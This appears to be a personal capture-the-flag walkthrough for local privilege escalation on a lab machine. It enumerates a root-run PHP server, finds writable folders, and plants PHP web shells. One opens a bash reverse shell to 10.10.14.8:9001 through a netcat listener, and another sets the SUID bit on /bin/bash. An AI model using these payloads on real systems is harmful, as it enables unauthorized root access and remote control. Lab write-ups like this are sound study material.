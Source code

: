 > ps aux

we see what is run by roots

`/usr/bin/php -S 127.0.0.1:8080 -t /opt/website-monitor`

> ps -ef | grep 8080

![[Pasted image 20250620101944.png]]

> netstat -tuln

![[Pasted image 20250620101336.png|wesbites running localy]]
#### test if we can reach local website

> curl http://127.0.0.1:8080

```
we get huge html back
```

### cd to /opt/website-monitor

check for writable files

> find . -writable

![[Pasted image 20250620102045.png | writable is ./config ./monitors folders]]
#### go to .config folder

create **shell php** script inside

listen using netcat on 9001
> nc -lvnp 9001

shell.php to get root using netcat listener
```php
<?php 
system("bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'");
?>
```

or
shell2.php to escalate your privilege directly
```php
<?php exec("chmod +s /bin/bash"); ?>
```

##### run the shell.php
 
1. 
> curl localhost:8080/config/shell.php

2.  
> curl http://127.0.0.1:8080/config/shell.php

**We get ROOT from NetCat Listener!**

